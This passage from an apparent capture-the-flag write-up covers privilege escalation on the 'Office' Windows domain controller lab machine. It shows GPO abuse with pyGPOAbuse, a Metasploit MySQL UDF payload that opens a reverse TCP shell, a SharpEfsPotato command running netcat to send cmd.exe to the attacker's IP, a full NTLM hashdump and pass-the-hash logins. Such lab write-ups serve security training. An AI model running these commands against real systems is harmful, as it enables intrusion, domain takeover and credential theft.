ComputerVersion  : AD Version: 3, SysVol Version: 0
WmiFilter        :

DisplayName      : Software Installation GPO
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : 9d183bb5-7581-4c19-9390-b1ebccacce99
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 5/10/2023 9:47:05 AM
ModificationTime : 5/10/2023 8:47:04 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :

DisplayName      : Password Policy GPO
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : ec1feba4-db03-4721-81db-b0baa61ffa18
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 5/10/2023 9:46:49 AM
ModificationTime : 5/10/2023 8:46:48 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```

- [https://github.com/Hackndo/pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)

With `pyGPOAbuse` we created a `scheduled task` which created us a new `admin user` called `john`.

```c
┌──(kali㉿kali)-[~/opt/10_post_exploitation/pyGPOAbuse]
└─$ python3 pygpoabuse.py office.htb/HHOGAN -hashes :6a626de046afdb1ece5118d54649b347 -gpo-id "6ac1786c-016f-11d2-945f-00c04fb984f9" -dc-ip 10.129.241.7  
SUCCESS:root:ScheduledTask TASK_d7f4b280 created!
[+] ScheduledTask TASK_d7f4b280 created!
```

```c
*Evil-WinRM* PS C:\Users\HHogan\Documents> gpupdate /force
Updating policy...


Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

| Username | Password |
| ---- | ---- |
|  john | H4x00r123.. |

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i office.htb -u john -p 'H4x00r123..'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents>
```

```c
*Evil-WinRM* PS C:\Users\john\Documents> whoami /all

USER INFORMATION
----------------

User Name   SID
=========== =============================================
office\john S-1-5-21-1199398058-4196589450-691661856-8101


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to ppotts (Unintended)

Since we hat some time constrains we switched to clear the box in a unintended way. At first we forwarded port `3306/TCP` within our sliver beacon for the user `web_account`.

```c
sliver (lock-http) > portfwd add -b 127.0.0.1:3306 -r 127.0.0.1:3306

[*] Port forwarding 127.0.0.1:3306 -> 127.0.0.1:3306
```

Next we created the directory `lib` and `plugins` in `C:\xampp\mysql\` because the were required for the exploit we used.

```c
PS C:\xampp\mysql> dir
dir

    Directory: C:\xampp\mysql

Mode                 LastWriteTime         Length Name                           
----                 -------------         ------ ----                           
d-----         4/13/2023   4:12 PM                backup                         
d-----         4/13/2023   4:14 PM                bin                            
d-----         2/17/2024   7:02 PM                data                           
d-----         4/13/2023   4:12 PM                scripts                        
d-----         4/13/2023   4:12 PM                share                          
-a----         1/30/2023   2:52 AM          17987 COPYING                        
-a----         1/30/2023   2:52 AM           2104 CREDITS                        
-a----         3/30/2013   5:29 AM            848 mysql_installservice.bat       
-a----         3/30/2013   5:29 AM            395 mysql_uninstallservice.bat     
-a----         1/30/2023   2:52 AM           2874 README.md                      
-a----          6/3/2019   4:39 AM           1095 resetroot.bat                  
-a----         1/30/2023   2:52 AM          86263 THIRDPARTY
```

```c
PS C:\xampp\mysql> mkdir lib
mkdir lib

    Directory: C:\xampp\mysql

Mode                 LastWriteTime         Length Name                           
----                 -------------         ------ ----                           
d-----         2/17/2024  11:03 PM                lib
```

```c
PS C:\xampp\mysql\lib> mkdir plugin
mkdir plugin

    Directory: C:\xampp\mysql\lib

Mode                 LastWriteTime         Length Name                           
----                 -------------         ------ ----                           
d-----         2/17/2024  11:03 PM                plugin
```

Then we setup `Metasploit`.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q msfconsole
Metasploit tip: You can use help to view all available commands
                                                  
      .:okOOOkdc'           'cdkOOOko:.                                          
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.                                        
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:                                       
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'                                      
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo                                      
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx                                      
  lOOOOOOOO.         ;d;         ,OOOOOOOOl                                      
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.                                      
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc                                       
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo                                        
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl                                         
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;                                          
       .dOOo   .OOOOocccxOOOO.   xOOd.                                           
         ,kOl  .OOOOOOOOOOOOO. .dOk,                                             
           :kk;.OOOOOOOOOOOOO.cOk:                                               
             ;kOOOOOOOOOOOOOOOk:                                                 
               ,xOOOOOOOOOOOx,                                                   
                 .lOOOOOOOl.                                                     
                    ,dOd,                                                        
                      .                                                                                                                                                                                                                     
       =[ metasploit v6.3.55-dev                          ]
+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/mysql/mysql_udf_payload
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/mysql/mysql_udf_payload) > set FORCE_UDF_UPLOAD true
FORCE_UDF_UPLOAD => true
msf6 exploit(multi/mysql/mysql_udf_payload) > set PASSWORD H0lOgrams4reTakIng0Ver754!
PASSWORD => H0lOgrams4reTakIng0Ver754!
msf6 exploit(multi/mysql/mysql_udf_payload) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/mysql/mysql_udf_payload) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/mysql/mysql_udf_payload) > set EXITFUNC process
[!] Unknown datastore option: EXITFUNC.
EXITFUNC => process
msf6 exploit(multi/mysql/mysql_udf_payload) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf6 exploit(multi/mysql/mysql_udf_payload) > run

[*] Started reverse TCP handler on 10.10.16.26:4444
```

```c
msf6 exploit(multi/mysql/mysql_udf_payload) > run

[*] Started reverse TCP handler on 10.10.16.26:4444 
[*] 127.0.0.1:3306 - Checking target architecture...
[*] 127.0.0.1:3306 - Checking for sys_exec()...
[*] 127.0.0.1:3306 - Checking target architecture...
[*] 127.0.0.1:3306 - Checking for MySQL plugin directory...
[*] 127.0.0.1:3306 - Target arch (win64) and target path both okay.
[*] 127.0.0.1:3306 - Uploading lib_mysqludf_sys_64.dll library to C:/xampp/mysql/lib/plugin/CahKRVKj.dll...
[*] 127.0.0.1:3306 - Checking for sys_exec()...
[*] 127.0.0.1:3306 - Command Stager progress -   1.47% done (1499/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -   2.93% done (2998/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -   4.40% done (4497/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -   5.86% done (5996/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -   7.33% done (7495/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -   8.80% done (8994/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  10.26% done (10493/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  11.73% done (11992/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  13.19% done (13491/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  14.66% done (14990/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  16.13% done (16489/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  17.59% done (17988/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  19.06% done (19487/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  20.53% done (20986/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  21.99% done (22485/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  23.46% done (23984/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  24.92% done (25483/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  26.39% done (26982/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  27.86% done (28481/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  29.32% done (29980/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  30.79% done (31479/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  32.25% done (32978/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  33.72% done (34477/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  35.19% done (35976/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  36.65% done (37475/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  38.12% done (38974/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  39.58% done (40473/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  41.05% done (41972/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  42.52% done (43471/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  43.98% done (44970/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  45.45% done (46469/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  46.91% done (47968/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  48.38% done (49467/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  49.85% done (50966/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  51.31% done (52465/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  52.78% done (53964/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  54.24% done (55463/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  55.71% done (56962/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  57.18% done (58461/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  58.64% done (59960/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  60.11% done (61459/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  61.58% done (62958/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  63.04% done (64457/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  64.51% done (65956/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  65.97% done (67455/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  67.44% done (68954/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  68.91% done (70453/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  70.37% done (71952/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  71.84% done (73451/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  73.30% done (74950/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  74.77% done (76449/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  76.24% done (77948/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  77.70% done (79447/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  79.17% done (80946/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  80.63% done (82445/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  82.10% done (83944/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  83.57% done (85443/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  85.03% done (86942/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  86.50% done (88441/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  87.96% done (89940/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  89.43% done (91439/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  90.90% done (92938/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  92.36% done (94437/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  93.83% done (95936/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  95.29% done (97435/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  96.76% done (98934/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  98.19% done (100400/102246 bytes)
[*] 127.0.0.1:3306 - Command Stager progress -  99.59% done (101827/102246 bytes)
[*] Sending stage (240 bytes) to 10.129.241.7
[*] 127.0.0.1:3306 - Command Stager progress - 100.00% done (102246/102246 bytes)
[*] Command shell session 1 opened (10.10.16.26:4444 -> 10.129.241.7:63664) at 2024-02-17 18:15:12 -0500


Shell Banner:
Microsoft Windows [Version 10.0.20348.2322]
-----


C:\xampp\mysql\data>
```

```c
C:\xampp\mysql\data>whoami /all
whoami /all

USER INFORMATION
----------------

User Name          SID                                          
================== =============================================
office\web_account S-1-5-21-1199398058-4196589450-691661856-1118


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

ERROR: Unable to get user claims information.
```

## Privilege Escalation to administrator

We used `SharpEfsPotato` with our new privileges to escalate to `administrator`.

- [https://github.com/bugch3ck/SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato)

```c
PS C:\tmp> .\SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "C:\tmp\nc64.exe -e cmd.exe 10.10.16.26 443"
.\SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "C:\tmp\nc64.exe -e cmd.exe 10.10.16.26 443"
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/86095219-67fd-430f-ba27-f96974e7daeb/\86095219-67fd-430f-ba27-f96974e7daeb\86095219-67fd-430f-ba27-f96974e7daeb
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.26] from (UNKNOWN) [10.129.241.7] 63793
Microsoft Windows [Version 10.0.20348.2322]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```c
C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeTrustedCredManAccessPrivilege           Access Credential Manager as a trusted caller                      Enabled
SeRelabelPrivilege                        Modify an object label                                             Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## root.txt

```c
C:\Users\Administrator\Desktop>type root.txt
type root.txt
49485e30b74edecb612892706afa1144
```

## Post Exploitation

```c
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f5b4f1e96c7ffca801ed5832e5e9105d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bdf51241ff49f8a2169bba26be8494ed:::
PPotts:1107:aad3b435b51404eeaad3b435b51404ee:b33adc3d2cc514aa321eec4366e6e778:::
HHogan:1108:aad3b435b51404eeaad3b435b51404ee:6a626de046afdb1ece5118d54649b347:::
EWhite:1109:aad3b435b51404eeaad3b435b51404ee:385b9b3fde7b0043a57628581d0ca79b:::
etower:1110:aad3b435b51404eeaad3b435b51404ee:b0281fa65adf3d6efbefde882d592379:::
dwolfe:1111:aad3b435b51404eeaad3b435b51404ee:04e1dc0b00ea7c7c4246eb9f46fa29dd:::
dmichael:1112:aad3b435b51404eeaad3b435b51404ee:5ddea8fee3355c5492d4c2a07c73f7d3:::
dlanor:1113:aad3b435b51404eeaad3b435b51404ee:8a3594633f2175cf1b74776d1ef0c7a8:::
tstark:1114:aad3b435b51404eeaad3b435b51404ee:89ff936c3824c0ece9003332532e6a23:::
web_account:1118:aad3b435b51404eeaad3b435b51404ee:4bd10b00cf88e55d444099f25ea8de25:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:0ddf0e8e5b48cf2085a16e86c1a3bf49:::
```

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i office.htb -u Administrator -H f5b4f1e96c7ffca801ed5832e5e9105d

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
